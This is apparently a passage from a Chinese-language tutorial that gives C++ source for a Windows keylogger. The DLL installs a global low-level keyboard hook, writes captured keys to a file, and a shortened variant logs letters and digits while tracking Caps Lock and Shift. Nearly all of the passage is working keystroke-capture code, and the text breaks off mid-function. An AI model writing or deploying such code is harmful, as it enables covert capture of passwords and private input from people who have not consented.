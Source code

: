 ```cpp
		KBDLLHOOKSTRUCT* key = (KBDLLHOOKSTRUCT*)lParam;
		saveKeyToFile(key->vkCode);
	}


	return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}

BOOL WINAPI InstallHook()
{
	g_hHook = SetWindowsHookEx(WH_KEYBOARD_LL, LowLevelKeyboardProc, g_hInst, 0);
	return g_hHook == NULL;
}

BOOL WINAPI UnInstallHook()
{
	return UnhookWindowsHookEx(g_hHook);
}

BOOL WINAPI DllMain(IN HINSTANCE hDllHandle, IN DWORD nReason, IN LPVOID Reserved)
{
	switch (nReason)
	{
	case DLL_PROCESS_ATTACH:
		g_hInst = hDllHandle;
		break;
	}
	return TRUE;
}
```

但事实上我们很少用得到那么多，仅录入数字字母即可，可缩减代码如下

```cpp


LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
	if (nCode == HC_ACTION && wParam == WM_KEYUP) {
		KBDLLHOOKSTRUCT* key = (KBDLLHOOKSTRUCT*)lParam;
		if (key->vkCode >= 'A' and key->vkCode <= 'Z')
		{
			//GetKeyState()返回值为负数则表示按键按下，为1表示指示灯亮起，为0表示指示灯灭
			if (GetKeyState(VK_CAPITAL) == 1)
			{
				if (GetKeyState(VK_SHIFT) < 0)
					print("%c", key->vkCode + 32);// caps亮且按下shift则小写
				else
					print("%c", key->vkCode);     // caps亮则大写
			}
			else {
				if (GetKeyState(VK_SHIFT) < 0)// 按下shift则大写
					print("%c", key->vkCode);
				else
					print("%c", key->vkCode + 32);// 不按shift则小写
			}
		}
		else if (key->vkCode == 160)
			print("Shift");
		else if (key->vkCode == 164)
			print("Alt");
		else if (key->vkCode == 162)
			print("Ctrl");
		else if (key->vkCode >= '0' && key->vkCode <= '9')
```